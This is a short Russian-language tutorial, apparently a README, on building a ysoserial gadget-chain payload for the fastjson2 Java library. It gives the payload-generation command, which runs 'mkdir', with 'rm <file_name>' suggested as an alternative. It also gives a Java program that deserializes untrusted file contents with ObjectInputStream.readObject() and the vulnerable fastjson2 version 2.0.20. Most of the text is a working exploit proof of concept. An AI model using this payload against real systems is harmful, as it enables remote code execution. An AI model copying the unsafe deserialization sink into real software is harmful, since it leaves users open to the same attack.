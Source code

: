 **Ysoserial Fastjson2**

Для того, чтобы ysoserial заработал с библиотекой fastjson2, необходимо использовать следующий fork:
https://github.com/Y4er/ysoserial/tree/main

Генерируем payload следующей командой:

```
java -jar ysoserial.jar Fastjson2 "mkdir created_dir"> mkdir_v2.bin
```

Данный запрос создат папку create_dir. В качестве аналогов, можно использовать "rm <file_name>" или "firefox" и так далее.

Теперь пишем код, который сериализует объект из файла:

```
package org.example;

import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.ObjectInputStream;
import java.nio.file.Files;

public class Main {
    public static void main(String[] args)  {
        try{
            byte[] data = Files.readAllBytes(new File(args[0]).toPath());
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(data));
        objectInputStream.readObject();
        objectInputStream.close();
    }catch (Exception e){
        e.printStackTrace();
        }
    }
}
```
Нужно не забыть импортировать библиотеку fastjson2 (протестированно для версии <= 20):

```
implementation("com.alibaba.fastjson2:fastjson2:2.0.20")
```
